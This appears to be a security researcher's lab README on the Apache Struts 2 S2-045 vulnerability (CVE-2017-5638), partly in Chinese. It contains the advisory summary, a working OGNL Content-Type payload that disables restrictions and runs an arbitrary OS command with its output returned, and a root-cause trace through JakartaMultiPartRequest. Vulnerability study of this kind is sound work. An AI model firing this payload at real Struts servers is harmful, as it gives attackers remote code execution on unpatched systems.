

# S2-045 Demo

## Summary

| Who should read this    | All Struts 2 developers and users                            |
| :---------------------- | ------------------------------------------------------------ |
| Impact of vulnerability | Possible RCE when performing file upload based on Jakarta Multipart parser |
| Maximum security rating | Critical                                                     |
| Recommendation          | Upgrade to [Struts 2.3.32](https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.3.32) or [Struts 2.5.10.1](https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.5.10.1) |
| Affected Software       | Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10     |
| Reporter                | Nike Zheng <nike dot zheng at dbappsecurity dot com dot cn>  |
| CVE Identifier          | CVE-2017-5638                                                |

## Problem

在使用基于Jakarta插件的文件上传功能时，有可能存在远程命令执行，导致系统被黑客入侵。恶意用户可在上传文件时通过修改HTTP请求头中的Content-Type值来触发该漏洞，进而执行系统命令。

## Environment

| Struts2 Version | Struts-2.3.24          |
| :-------------- | :--------------------- |
| Web Server      | Tomcat 8.5.53          |
| IDE             | IDEA 2020.1.1 ULTIMATE |

## POC


Payload: 

```java
Content-Type: %{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='calc').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}.multipart/form-data;
```

## Debug

详细的debug可参考：

https://blog.csdn.net/u011721501/article/details/60768657

https://paper.seebug.org/247/

这里简单说明一下漏洞成因。

传入非法的Content-type会引发JakartaMultiPartRequest类报错，并调用buildErrorMessage()方法处理错误信息。该方法调用findText()方法时传入了detailMessage参数，而detailMessage参数将Content-type的值拼接了进来。

`s2-046/web/WEB-INF/lib/struts2-core-2.3.24.jar!/org/apache/struts2/dispatcher/multipart/JakartaMultiPartRequest.class:91`


一直跟入findText() -> getDefaultMessage() -> translateVariables()，并且传入的是拼接有Content-Type值得message。



这个translateVariables之前分析过，解析传入的字符串是否是`%{`和`${`打头的，如果有就提取出来作为`ognl`表达式解析。这也是很多struts2 ognl表达式注入漏洞最终的触发点吧。

## Reference

- [S2-045](https://cwiki.apache.org/confluence/display/WW/S2-045)
- [S2-045 远程代码执行漏洞（CVE-2017-5638）]( https://github.com/vulhub/vulhub/blob/master/struts2/s2-045/README.zh-cn.md)
- [Struts-S2-045漏洞利用（含环境搭建、含POC）](https://blog.csdn.net/zzkk_/article/details/77159524)

